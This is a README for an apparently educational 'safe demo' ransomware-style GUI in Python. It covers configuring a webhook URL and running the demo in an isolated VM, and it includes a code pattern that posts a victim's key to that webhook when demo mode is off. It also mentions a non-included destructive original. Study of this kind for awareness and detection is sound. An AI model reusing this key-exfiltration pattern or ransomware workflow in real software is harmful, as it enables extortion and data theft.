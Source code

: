 # Ransomware GUI (SAFE DEMO)

![Security Awareness](https://img.shields.io/badge/Security-Awareness-red?style=flat-square\&logo=hackaday)
![Python 3.x](https://img.shields.io/badge/Python-3.x-blue?style=flat-square\&logo=python)
![Tkinter GUI](https://img.shields.io/badge/GUI-Tkinter-lightgrey?style=flat-square\&logo=python)
![Educational](https://img.shields.io/badge/Use-Educational-green?style=flat-square\&logo=bookstack)
![Demo Mode](https://img.shields.io/badge/Mode-Demo-blueviolet?style=flat-square\&logo=demo)
![VM Only](https://img.shields.io/badge/VM-only-Lab--Safe-lightgrey?style=flat-square\&logo=virtualbox)
![Network Isolated](https://img.shields.io/badge/Network-Isolated-yellow?style=flat-square\&logo=cloudflare)
![Audit Friendly](https://img.shields.io/badge/Audit-Friendly-orange?style=flat-square\&logo=github)

---

> **⚠️ CRITICAL DISCLAIMER — READ FIRST**
>
> This repository contains a **SAFE DEMO** of a ransomware-style GUI for educational and defensive research only. The original destructive behaviors (real encryption + exfiltration) are **not** included in the demo. **Do not** run any destructive code on real systems or networks. Use isolated virtual machines, snapshots, and demo/sanitized branches only.

---

## 📖 What this README covers

* 🎭 Safe, non-destructive demo of the original GUI.
* 🔗 How to configure the demo's unique webhook URL **safely** (local/test only).
* 💻 How to run the demo inside an isolated VM.
* 📂 File usage and structure guidelines for safe publishing.

---

## 🖼️ Overview (safe demo)

This repo provides a GUI demonstration (non-destructive) that mimics the user experience of a ransomware UI for **training, detection research, and awareness**. All encryption and network calls are simulated. The demo preserves UI flows and logs so defenders and students can study indicators and response procedures without risk.

---

## ⚙️ Configuration — change the unique webhook URL (SAFE)

**Important:** Changing `WEBHOOK_URL` is allowed **only** for safe testing inside isolated environments. Never point demo or original code to public services when testing destructive behavior.

1. Open the demo script in your isolated VM (example: `Ran.py`).
2. Locate the configuration block near the top:

```python
# Demo configuration
DEMO_MODE = True                # must be True for safe demo
WEBHOOK_URL = "DEMO_MODE"     # keep DEMO_MODE to avoid any network exfiltration
HACKER_EMAIL = "shadow.cortex@demo.local"
```

3. To simulate posting the key to a controlled receiver on the *same isolated network*, set `WEBHOOK_URL` to a localhost/VM-only address such as `http://127.0.0.1:8080/receive` only if you have a local receiver running. Example:

```python
WEBHOOK_URL = "http://127.0.0.1:8080/receive"  # only in fully isolated lab
```

4. Confirm that `DEMO_MODE` is `True` or that demo code checks `DEMO_MODE` before any real network call. The demo should log any exfiltration attempt rather than performing it.

**Demo-safe code pattern** (example):

```python
if DEMO_MODE or WEBHOOK_URL == "DEMO_MODE":
    log("[DEMO] Skipping network exfiltration (DEMO_MODE active).")
else:
    # only in fully isolated lab with local receiver
    requests.post(WEBHOOK_URL, data={"key": fake_key, "id": "victim_01"})
```

---

## ▶️ How to run the SAFE demo

1. 🖥️ Prepare an isolated VM (VirtualBox/VMware). Disable Internet connectivity and host-guest bridging.
2. 📸 Create a snapshot before running anything.
3. 📂 Clone the repository in the VM and switch to the `demo` folder or branch.
4. ▶️ Run the demo GUI:

```bash
python3 demo/Ran.py
```

You will see UI logs that simulate scanning, key generation, simulated exfiltration (logged), and simulated recovery flows. **No files are modified.**

---
